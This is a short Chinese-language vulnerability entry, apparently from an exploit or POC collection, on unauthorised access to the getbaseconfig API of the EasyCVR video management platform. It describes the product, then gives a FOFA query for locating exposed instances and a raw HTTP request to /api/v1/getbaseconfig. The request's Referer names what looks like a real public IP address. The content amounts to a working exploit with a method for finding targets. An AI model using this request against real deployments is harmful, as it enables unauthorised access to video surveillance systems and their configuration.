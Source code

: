 # EasyCVR-视频管理平台getbaseconfig接口未授权访问

EasyCVR视频管理平台，作为TSINGSEE青犀视频旗下的一款重要产品，是一款功能强大的视频融合+AI智能分析网关平台。平台基于分布式、负载均衡等流媒体技术，提供广泛兼容、安全可靠、开放共享的视频综合服务。它支持多协议的设备视频接入、采集、AI智能检测、处理、分发、管理等服务，并具备轻量化接入、传输、处理与分发能力，可实现一站式视频融合共享管理。支持RTSP、RTMP、GB28181、GB35114、海康Ehome、大华SDK、海康SDK等多种协议的视频设备接入，兼容市面上几乎所有视频终端。

FOFA: 

```plain
title="EasyCVR"
```

```
GET /api/v1/getbaseconfig HTTP/2
Host: 
Cookie: token=-RDgCfFNR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: https://122.225.84.166:4443/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```

![image-20250210111616195](images\image-20250210111616195.png)



